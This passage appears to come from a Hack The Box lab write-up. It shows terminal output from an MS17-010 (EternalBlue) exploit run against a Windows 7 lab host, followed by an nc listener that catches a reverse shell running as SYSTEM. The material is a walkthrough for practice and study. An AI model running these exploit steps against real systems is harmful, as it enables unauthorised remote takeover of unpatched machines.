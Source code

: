 ```
┌──(HTB2)─(kali㉿kali)-[~/Desktop/MS17-010]
└─$ python send_and_execute.py 10.10.10.40 rev_shell.exe
Trying to connect to 10.10.10.40:445
Target OS: Windows 7 Professional 7601 Service Pack 1
Using named pipe: browser
Target is 64 bit
Got frag size: 0x10
GROOM_POOL_SIZE: 0x5030
BRIDE_TRANS_SIZE: 0xfa0
CONNECTION: 0xfffffa8003f21ba0
SESSION: 0xfffff8a00a9c2760
FLINK: 0xfffff8a008a22088
InParam: 0xfffff8a008a1515c
MID: 0x703
unexpected alignment, diff: 0xc088
leak failed... try again
CONNECTION: 0xfffffa8003f21ba0
SESSION: 0xfffff8a00a9c2760
FLINK: 0xfffff8a008a35088
InParam: 0xfffff8a008a2815c
MID: 0x703
unexpected alignment, diff: 0xc088
leak failed... try again
CONNECTION: 0xfffffa8003f21ba0
SESSION: 0xfffff8a00a9c2760
FLINK: 0xfffff8a008a42088
InParam: 0xfffff8a008a3c15c
MID: 0x703
success controlling groom transaction
modify trans1 struct for arbitrary read/write
make this SMB session to be SYSTEM
overwriting session security context
Sending file 6B2H4M.exe...
Opening SVCManager on 10.10.10.40.....
Creating service QwKt.....
Starting service QwKt.....
The NETBIOS connection with the remote host timed out.
Removing service QwKt.....
ServiceExec Error on: 10.10.10.40
nca_s_proto_error
Done
```

### Obtaining reverse shell

```
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -nlvp 4000
listening on [any] 4000 ...
connect to [10.10.16.8] from (UNKNOWN) [10.10.10.40] 49158
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```
